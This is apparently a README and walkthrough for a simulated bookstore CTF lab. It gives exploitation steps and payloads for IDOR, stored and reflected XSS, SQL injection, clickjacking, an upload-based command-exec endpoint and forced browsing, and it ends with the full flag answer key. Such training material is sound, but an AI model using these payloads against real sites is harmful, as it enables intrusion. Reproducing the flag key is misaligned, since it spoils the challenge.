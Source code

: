 # BookTryHackMe
Test your web-hacking skills on a realistic, simulated bookstore website! Explore multiple pages that look and behave like a real app while hunting hidden flags—learn by finding and exploiting common web vulnerabilities, including:

* SQL Injection (SQLi)
* XML External Entity (XXE) simulation
* Insecure Direct Object Reference (IDOR)
* Reflected Cross-Site Scripting (XSS)
* Stored (persistent) XSS
* Unrestricted File Uploads (safe lab simulation)
* Clickjacking (framing)
* Forced browsing / exposed static files


Discover hidden flags by exploiting these vulnerabilities safely in a CTF environment.

---

# BookStore CTF - Detailed Walkthrough (Exploits + Code)

## Flag 001 — Default/Test Credentials (Welcome flag)

**Location:** `GET/POST /login` (Login page)
**Why vulnerable:** Developer/test credentials are left in the page source (HTML comment / leftover).
**How to exploit:**

* Open Login page.
* View page source (Ctrl+U).
* Search for `DEFAULT CREDENTIALS` / `test@example.com` / `Welcome123`.
* Use found credentials to log in.
  **Example creds (lab):**

```
test@example.com
Welcome123
```

**Expected result:** `THM{welcome_flag_001}`

---

## Flag 002 - IDOR (Hidden profile)

**Location:** `GET /profile?id=<id>`
**Why vulnerable:** Server returns profile based only on numeric `id` parameter without verifying requester ownership.
**How to exploit:**

* Log in with any account.
* Open your profile `/profile?id=1`.
* Change URL to `/profile?id=99` and reload.
  **Expected result:** `THM{idor_hidden_flag_002}`

---

## Flag 003 - Stored XSS (Review form)

**Location:** `POST /book?id=<n>` (review form on a book page)
**Why vulnerable:** Review input is stored and later rendered unsanitized (persistent XSS).
**How to exploit (payload examples):**

* Submit review text containing a payload, e.g.:

```html
<img src=x onerror=alert('xss')>
```

or

```html
<script>alert('xss')</script>
```

* Open the book page in a different session or reload — payload executes.
  **Expected result (lab triggers flag when payload detected):** `THM{stored_xss_flag_003}`

---

## Flag 004 - Reflected XSS (Search page, Burp bypass)

**Location:** `GET /search?query=...`
**Why vulnerable:** The `query` param is reflected into the page without proper encoding; naive filters block `<script>` but can be bypassed via encoding/event attributes.
**How to exploit (use Burp / URL encode):**

* Capture `GET /search?query=term` in Burp Proxy → send to Repeater.
* Replace `query` with a URL-encoded event payload, e.g.:

```
%3Cimg%20src%3Dx%20onerror%3Dalert('xss')%3E
```

* Replay request and view page — payload executes.
  **Alternate bypass:** use `onmouseover` in an `<a>` tag encoded.
  **Expected result:** `THM{reflected_xss_flag_04}`

---

## Flag 005 - Unrestricted File Upload (Simulated webshell exec)

**Location:** `POST /upload_profile` (uploads saved to `/static/uploads/`) and `/uploads/exec/<file>?cmd=...` (simulated exec)
**Why vulnerable:** App allows uploads to web-served directory and provides a simulated exec endpoint that reads files. (In lab, execution is simulated for safety.)
**How to exploit:**

1. Upload file via profile upload form (e.g., name it `myshell.php` or `myshell.txt`).
2. Confirm reachability: `https://<HOST>/uploads/myshell.php`
3. Call simulated exec endpoint:

```
http://<HOST>/uploads/exec/myshell.php?cmd=cat%20/opt/flag_shell.txt
```

**Expected result:** `THM{shell_flag_05}`

---

## Flag 006 - Clickjacking (Index framing)

**Location:** Home page `/` (index)
**Why vulnerable:** Page can be framed — missing `X-Frame-Options` / `Content-Security-Policy: frame-ancestors`. The app detects being framed and shows the flag.
**How to exploit (local attacker page):** create `attack.html`:

```html
<!doctype html>
<html>
  <body>
    <iframe src="http://<HOST>/" style="width:1000px;height:800px;border:0"></iframe>
  </body>
</html>
```

* Open `attack.html` in browser (file:// or local http server).
  **Tip:** Use Firefox if Chrome blocks embedding.
  **Expected result:** `THM{clickjack_flag_06}`

---

## Flag 007 - SQL Injection (Login simulation)

**Location:** `POST /login` (login form)
**Why vulnerable:** Lab simulates unsafe string concatenation in SQL queries (demonstration branch detects classic SQLi).
**How to exploit (payload):**

* Email or password field:

```
' OR '1'='1
```

* Submit form.
  **Why it works:** The payload makes the login WHERE clause always true. (CTF detects SQLi pattern and returns flag.)
  **Expected result:** `THM{SQLi_successful}`

---

## Flag 009 - Forced Browsing / Sensitive static file

**Location:** `/static/admin/flag.txt` (or similar common admin static paths)
**Why vulnerable:** Sensitive file(s) left in webroot and accessible without authentication.
**How to exploit (forced browse / curl):**

```
curl -v https://<HOST>/static/admin/flag.txt
```

or just visit `https://<HOST>/static/admin/flag.txt` in browser.
**Expected result:** `THM{Final_hidden_flag_09}`

---

Collect all individual flags:

```
THM{welcome_flag_001}

THM{idor_hidden_flag_002}

THM{stored_xss_flag_003}

THM{reflected_xss_flag_04}

THM{shell_flag_05}

THM{clickjack_flag_06}

THM{SQLi_successful}

THM{Final_hidden_flag_09}
```
